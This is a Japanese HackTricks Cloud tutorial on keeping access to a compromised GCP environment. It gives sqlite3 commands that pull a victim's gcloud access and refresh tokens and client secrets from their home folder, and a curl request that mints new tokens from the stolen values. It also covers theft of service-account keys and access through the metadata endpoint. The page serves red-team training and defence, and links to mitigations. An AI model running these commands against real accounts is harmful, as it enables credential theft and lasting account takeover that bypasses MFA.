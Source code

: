 # GCP - 非サービス永続性

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>を通じてゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい**または **HackTricks をPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)をフォローする**
* **ハッキングテクニックを共有するために、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出する**

</details>

これらは、何らかの方法でGCPの資格情報またはGCP環境で実行されているマシンを侵害した場合に便利なテクニックです。

## トークンハイジャッキング

### 認証済みユーザー

GCPの**認証済みユーザー**のホームフォルダにアクセスできると、**デフォルトで**、そのユーザーのトークンを**認証なしで**取得でき、使用するマシンに依存せず、ユーザーがMFAを構成していても**必要なだけ長く**そのユーザーのトークンを使用できます。

これは、デフォルトで**リフレッシュトークンを使用して**新しいトークンを生成するために**必要なだけ長く**使用できるためです。

ユーザーの**現在のトークン**を取得するには、次のコマンドを実行できます:

{% code overflow="wrap" %}
```bash
sqlite3 ./.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

このページで、**gcloudを使用してこのトークンを直接使用する方法**を確認してください：

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

**新しいアクセス トークンを生成する詳細**を取得するには、次のコードを実行します：

{% code overflow="wrap" %}
```bash
sqlite3 ./.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

新しいリフレッシュトークンを取得するには、**リフレッシュトークン**、クライアントID、およびクライアントシークレットを実行します：

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

リフレッシュトークンの有効期限は、**管理者** > **セキュリティ** > **Google Cloud セッション制御** で管理でき、デフォルトでは16時間に設定されていますが、期限を切らないように設定することもできます：

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### サービスアカウント

認証済みユーザーと同様に、サービスアカウントの**秘密鍵ファイルを侵害**すると、**望むだけアクセス**できます。\
ただし、サービスアカウントの**OAuth トークン**を盗むとさらに興味深いです。デフォルトではこれらのトークンは通常1時間だけ有効ですが、**被害者が秘密の API キーを削除しても、OAuth トークンは有効のまま**です。

### メタデータ

明らかに、GCP 環境で実行されているマシン内にいる限り、メタデータエンドポイントに連絡してそのマシンにアタッチされたサービスアカウントに**アクセス**できます（このエンドポイントでアクセスできる OAuth トークンは通常、スコープによって制限されています）。

### 対処方法

これらのテクニックに対するいくつかの対処方法は、[https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2) で説明されています。

## 参考文献

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong>で**ゼロからヒーローまでのAWSハッキングを学ぶ**！</summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝**したい場合や **HackTricks を PDF でダウンロード**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
* [**公式 PEASS & HackTricks スワッグ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な [**NFTs**](https://opensea.io/collection/the-peass-family) のコレクションを見つける
* **💬 [Discord グループ](https://discord.gg/hRep4RUj7f)** に参加するか、[telegram グループ](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live) をフォローする
* **HackTricks** と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks) の GitHub リポジトリに PR を提出して、自分のハッキングテクニックを共有する

</details>
